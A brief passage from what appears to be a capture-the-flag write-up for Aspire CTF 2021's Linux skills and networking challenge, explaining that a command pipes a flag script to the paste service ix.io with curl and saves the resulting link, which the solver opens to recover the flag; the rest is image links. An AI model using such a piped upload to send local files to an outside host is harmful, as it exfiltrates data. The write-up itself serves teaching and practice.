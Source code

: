 
This means that the last command `cat **flag**.sh | curl -F ‘f:1=&lt;-’ ix.io &gt; .cache/.url` will redirect the generated link to .cache/.url

All we need to do is access the link and get the flag

![image](/posts/2021-02-15_aspire-ctf-2021linux-skills-networking/images/28.png#layoutTextWidth)

![image](/posts/2021-02-15_aspire-ctf-2021linux-skills-networking/images/29.png#layoutTextWidth)
